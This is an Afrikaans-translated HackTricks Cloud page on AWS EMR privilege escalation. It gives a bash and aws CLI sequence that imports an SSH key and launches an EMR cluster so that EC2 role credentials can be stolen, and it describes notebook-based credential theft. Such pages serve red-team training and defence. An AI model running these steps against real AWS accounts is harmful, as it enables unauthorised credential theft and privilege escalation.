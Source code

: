 # AWS - EMR Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

Meer **inligting oor EMR** in:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

'n Aanvaller met hierdie toestemmings kan **'n nuwe EMR-kluster laat loop terwyl EC2-rolle aangeheg word** en probeer om sy akrediteer te steel.\
Let daarop dat jy om dit te doen, **'n ssh priv sleutel wat in die rekening ingevoer is, moet ken** of een moet invoer, en in staat wees om **poort 22 in die meesterknoop te open** (jy mag in staat wees om dit te doen met die eienskappe `EmrManagedMasterSecurityGroup` en/of `ServiceAccessSecurityGroup` binne `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Note how an **EMR-rol** is gespesifiseer in `--service-role` en 'n **ec2-rol** is gespesifiseer in `--ec2-attributes` binne `InstanceProfile`. egter, hierdie tegniek laat slegs toe om die EC2 rol geloofsbriewe te steel (soos jy via ssh sal aansluit) maar nie die EMR IAM Rol nie.

**Potensiële Impak:** Privesc na die EC2 diensrol gespesifiseer.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Met hierdie toestemmings kan 'n aanvaller na die **AWS-konsol** gaan, 'n Notebook skep en dit toegang om die IAM Rol te steel.

{% hint style="danger" %}
Selfs as jy 'n IAM rol aan die notaboekinstansie heg, het ek in my toetse opgemerk dat ek in staat was om AWS bestuurde geloofsbriewe te steel en nie geloofsbriewe wat met die IAM rol verband hou nie.
{% endhint %}

**Potensiële Impak:** Privesc na AWS bestuurde rol arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Net met hierdie toestemming sal 'n aanvaller in staat wees om toegang te verkry tot die **Jupyter Notebook en die IAM rol** wat daarmee geassosieer is.\
Die URL van die notaboek is `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Selfs as jy 'n IAM rol aan die notaboekinstansie heg, het ek in my toetse opgemerk dat ek in staat was om AWS bestuurde geloofsbriewe te steel en nie geloofsbriewe wat met die IAM rol verband hou nie.
{% endhint %}

**Potensiële Impak:** Privesc na AWS bestuurde rol arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
